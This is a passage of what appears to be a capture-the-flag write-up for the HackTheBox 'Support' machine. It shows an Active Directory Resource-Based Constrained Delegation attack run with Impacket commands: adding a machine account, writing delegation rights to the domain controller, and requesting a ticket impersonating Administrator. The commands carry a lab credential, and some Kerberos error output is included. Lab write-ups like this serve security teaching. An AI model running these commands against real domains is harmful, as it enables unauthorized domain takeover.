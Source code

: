 ####
<div class="info">

> RBCD (Resource-Based Constrained Delegation) is an exploitation technique in Active Directory environments that allows users to abuse the delegation of permissions to escalate privileges.
</div>

####
The process is found in many articles, blogs, and writeups that use `PowerView.ps1`, `Powermad.ps1`, and `Rubeus`.exe, but there is a suite called **Impacket** that can accomplish all of this:
####
```bash
impacket-addcomputer 'support.htb/support:Ironside47pleasure40Watchful' -computer-name 'vishok' -computer-pass 'vishok'
```
####
- Impacket-addcomputer Param
    - `-computer-name` Sets the name of the new machine within the *DC*
    - `computer-pass` Sets the password for that new machine
####
```bash
impacket-rbcd -delegate-from 'vishok$' -delegate-to 'DC$' -dc-ip 10.10.11.174 -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```
####
- Impacket-rbcd Param
    - `-delegate-from` Indicates the name of the source machine
    - `-delegate-to` Indicates the name of the destination machine to impersonate
    - `-dc-ip` Indicates the IP of the *DC*
    - `-action` Indicates the action to be performed within **msDS-AllowedToActOnBehalfOfOtherIdentity**
####
We only have one more command to use from Impacket, but authentication against the machine is with **Kerberos**, and there's a problem related to this. In Kerberos, synchronizing the date between the local and remote machines is very important. If we try to obtain the ticket in `ccache` format:
####
```ruby
impacket-getST -spn 'host/dc.support.htb' -impersonate Administrator -dc-ip 10.10.11.174 'support.htb/vishok$:vishok'
    Result ->
        [-] CChache file is not found. Skipping...
        [*] Getting TGT for user
        Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew to great)
```
####
- Impacket-getST Param
    - `-spn` Specifies the Service Principal Name (e.g., host/dc.support.htb)
    - `-impersonate` Specifies the user to impersonate (e.g., Administrator)
    - `-dc-ip` IP address of the Domain Controller
####
<div class="info">

> The credentials `Domain\Username:Password` format is used to authenticate and request the service ticket.
</div>
